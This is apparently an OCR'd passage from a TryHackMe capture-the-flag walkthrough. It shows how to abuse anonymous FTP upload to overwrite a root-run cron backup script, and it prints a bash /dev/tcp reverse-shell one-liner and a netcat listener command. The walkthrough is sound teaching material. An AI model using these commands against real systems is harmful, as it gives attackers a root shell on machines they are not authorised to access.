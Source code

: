 Let's look at the directories available to us using ls. There is only one folder with data that our user has permission to access:

We'll navigate to this using cd to change our working directory and then  ls to list the contents. The file within this folder contains a file with a ".sh" extension. This extension is a shell script, that when executed, will run commands that we program. Let's use get to get the file from the server onto our device, so we understand why this file has been left here!



9.6. Finding our Exploit
With the file downloaded, let's open it on our device using a terminal text editor such as nano.

We don't need to understand what happens here outside of the comments. The script executes every minute (according to Elf McEager), creates a backup of a folder and stores it in Elf McEager's home directory. What if we were to replace the commands executed in this script with our own, malicious commands? Uploading a file requires separate permission that shouldn't be granted to the "anonymous" user. However, permissions are very easy to oversight - such as in the case here.

9.6.1. Let's use pentesters cheatsheet to get a good command that will be executed by the server to
generate a shell to our AttackBox, replacing the IP_ADDRESS with your TryHackMe IP, this address is displayed on the navigation bar on the Access page.

bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1

9.6.2. Let's set up a netcat listener to catch the connection on our AttackBox: nc -lvnp 4444

9.6.3. We'll now attempt to upload our malicious script to the folder that we have write permissions on the FTP server by returning to our FTP prompt
and using put to put the file into that directory (ensuring it is your current directory).

9.6.4. Return to our netcat listener, after waiting one minute, you should see an output like below! Success! We have a reverse system shell on the FTP Server as the most powerful user. Any commands you now use will execute on the FTP server's system.

Proceed to use commands similar to what we have used before to find the contents of root.txt located in the root directory! Let's break down exactly what happened here and explain the reasons as why this exploit happened:

9.6.5.1. The FTP Server has anonymous mode enabled allowing us to authenticate. This isn't inherently
insecure and has many legitimate uses.

9.6.5.2. We've discovered that we have permission to upload and download files. Whilst is also normal behaviour for FTP servers, anonymous users should not be able to upload files.

9.6.5.3. We've interpreted the information from a legitimate backup script to create a reverse shell onto our host.

9.6.5.4. The script executes as the "root" user - the most powerful on a Linux system. This is also a vulnerability, as now we have full access to the system. The use of this user should be restricted wherever possible. If the script were to execute as "elfmceager", we'd only have access to the system as that user (a much less powerful one in comparison)



***10.3. What is Samba & where is it Used?***

Whilst we learnt about one of the most commonplace protocols that are used for file-sharing on Day 10, we'll be covering an alternative technology for file-sharing that is most used within organisation/company networks. Offering encryption as standard, this technology consists of two protocols:
